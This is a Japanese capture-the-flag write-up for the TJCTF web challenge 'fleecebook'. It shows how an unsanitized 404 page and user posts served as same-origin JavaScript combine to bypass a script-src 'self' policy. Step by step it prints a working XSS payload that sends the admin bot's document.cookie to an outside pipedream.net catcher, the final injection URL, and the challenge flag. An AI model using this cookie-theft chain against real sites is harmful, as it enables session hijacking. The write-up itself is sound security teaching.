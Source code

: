 # fleecebook:web:XXXXpts
I made a place to post all you want about fleece!  
I guess you could say, it's kinda meta...  
[fleecebook.tjc.tf](https://fleecebook.tjc.tf/)  
[Admin Bot](https://admin-bot.tjctf.org/fleecebook)  

Downloads  
[admin-bot.js](admin-bot.js)　[server.zip](server.zip)  

# Solution
XSS問題セットとソースが渡される。  
アクセスすると謎のfleece推しサイトが出てきた(マウスポインタもfleeceである…)。  
fleecebook  
[site.png](site/site.png)  
`/post`にてタイトルとコンテンツが投稿できるがサニタイズされている。  
ここでソースを見ると以下のようであった。  
```python
~~~
@app.errorhandler(404)
def not_found(e):
    return 'your fleece page (' + request.path + ') could not be found :notlikefleececry:'
~~~
```
404エラーページではサニタイズが見られない。  
```bash
$ curl "https://fleecebook.tjc.tf/%3Cs%3E"
your fleece page (/<s>) could not be found :notlikefleececry:
```
タグの挿入に成功するが、CSPにて`script-src 'self'`とされているためインラインscriptタグでのXSSなどはできないようだ。  
同一オリジンにjsなどをアップロードしてXSSを行う方針をとる。  
ここで、`/post`にて任意のタイトルとコンテンツを投稿できることを思い出す。  
これをjsとして読み込めばよい。  
通常のテキストを投稿したものは以下のような形式であった。  
```

    title - 2022-05-15 02:45:44
    <br>
    content
    
```
`<br>`などが邪魔だがコメントアウトすればよい。  
リクエストは[RequestBin.com](https://requestbin.com/)で受け取る。  
サニタイズされるため、シングルクォートやダブルクォートなどは利用できない。  
titleを  
```
location.href=`https://xxxxxxxxxxxxx.x.pipedream.net?s=`+document.cookie; /*
```
contentを  
```
*/
```
とし、投稿を行う。  
これにより、リダイレクトを行いcookieを取得するjsが設置できた。  
生成したURLは`https://fleecebook.tjc.tf/post/b7515134-68ff-48ab-986d-d8684602c571`である。  
```bash
$ curl https://fleecebook.tjc.tf/post/b7515134-68ff-48ab-986d-d8684602c571

    location.href=`https://endetltc6t33d.x.pipedream.net?s=`+document.cookie; /* - 2022-05-15 02:52:55
    <br>
    */
    
```
これを404ページよりscriptのsrcとして読み込む。  
最終的にXSSを行うURLは、
```
https://fleecebook.tjc.tf/static/"><script src='https://fleecebook.tjc.tf/post/b7515134-68ff-48ab-986d-d8684602c571'></script>
```
となる。  
これをAdmin Botに送信する。  
CSPがバイパスでき、`/?s=flag=tjctf{s3a_e5s_p3A_5a1d68d16c7e1d2a}`なるflagを含むリクエストを受信した。  

## tjctf{s3a_e5s_p3A_5a1d68d16c7e1d2a}